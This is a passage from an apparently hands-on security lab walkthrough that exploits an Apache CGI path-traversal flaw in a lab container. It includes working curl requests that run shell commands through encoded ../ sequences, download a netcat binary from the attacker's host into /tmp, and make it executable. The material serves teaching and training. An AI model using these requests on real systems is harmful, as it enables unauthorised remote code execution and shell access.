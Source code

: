 You should receive a similar output:

```bash
10.8.0.8 - - [21/Jul/2023 04:20:18] "GET /nc.traditional HTTP/1.1" 200 -
```

You can see the process of uploading the nc.traditional on this diagram:

![7da191ae7a35d011.png](https://cdn.qwiklabs.com/4roir5DhTXeJKDrWvfwo2hc3SG3OvEWFvr0xO9mw1QI%3D align="left")

* **1.** We run the `curl` command on the Attacker instance and connect to the Apache
    
* **2.** Apache runs the `curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc` command using `/bin/sh` shell.
    
* **3.** The `curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc` command connects to the Attackers instance
    
* **4.** The `curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc` command fetches the `nc.traditional` binary file
    
* **5.** The `curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc` command saves the `nc.traditional` binary file as `/tmp/nc` file in the running container
    
* **6.** The `curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc` command returns the message `10.8.0.8 - - [15/Jul/2023 18:11:34] "GET /nc.traditional HTTP/1.1" 200 -` to Apache
    
* **7.** Apache confirms that the remote command was executed successfully
    

9. Now netcat-traditional is on the remote container. Make it executable by using the `chmod +x /tmp/nc` command
    

```apache
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"
```

We have just downloaded a binary file to the Apache container, so we do not need our primitive Python-based web server anymore.

10. On the attacker's workstation enter this command to interrupt the running Python web-service:
    

```apache
pkill python
```

11. **Ensure you receive a similar message**, which signals that your web-server has been successfully terminated (you might need to press "enter" a couple of times to see this message).
    

```apache
[1]+  Terminated              python3 -m http.server --bind ${LOCAL_IP} --directory ~/netcat-traditional/bin/ 8888
```

**Warning:** If you don't see the above output, run the command again.
